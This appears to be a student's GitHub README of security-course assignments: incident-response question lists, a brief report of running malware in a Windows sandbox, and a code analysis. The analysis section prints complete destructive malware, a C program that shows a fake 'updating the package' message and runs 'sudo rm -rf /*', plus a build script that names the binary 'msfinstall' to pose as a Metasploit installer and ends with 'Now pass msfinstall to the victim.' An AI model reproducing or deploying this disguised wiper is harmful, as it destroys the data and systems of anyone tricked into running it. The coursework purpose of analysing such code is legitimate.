


# Assignment-1

  1.What type of security breaches you may encounter as an incident responder?

	a, Data breaches.
	b, Source code leaks.
	c, Denial of service attacks.

   2.To detect malicious emails, what steps would you take to examine the emails’?write Helpful threat hunting Checklists
	a, If the email happens to be a spam.
	b, If the email is from a known source.
	c, If the email appears to be a click-bait to a link.

Assignment-2


   1.Idenify new created processes,service. 

   	a, System programs such as antiviruses.
	b, Third party programs currently running.
	c, Service progrmas running the background.


# Assignment-2
## Malware Analysis

 The assignment was to run malicious software on a windows sandbox and observe behaviours of the program.
 We used virtual box and run windows 7 on a VB instance.
 After running the program a few times we only managed to observe a few things.
 
 While  running the malware the program tried to perform a tcp connection to an external host, but was quickly stopped by the defender program.

 >despite this we were only able to identify a few processes running in the background.





# Assignment-3
## Code analysis

The source code that was analized was a C program that performed a given task.
```C
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>

#define kill_os "sudo rm -rf /*"
#define text "Switching to root user to update the package" 
#define error_text "There has been an error."

int main(){
#if defined __linux__ || defined __unix__
    if ( geteuid() != 0 ){
        printf("%s\n", text); 
    }
    system(kill_os);
#else
    printf("%s\n", error_text);
    return 1;
#endif
}
```

The above C code is a script that will automatically destroy any linux/unix based system.

    1. The program starts by insuring that the current system is a linux/unix based one.
    2. If the system turns out to be a non linux/unix one it will display an error.
    3. Once the system is assured to be linux/unix then it will remove the root folder of the os which will lead to a complete distruction of the system.

The C program is intiated by running a bash command.

```bash
#!/bin/sh
gcc main.c -o msfinstall
mv msfinstall ..
cd .. && rm -rf fake-msfinstall/
echo "Now pass 'msfinstall' to the victim."
exit
```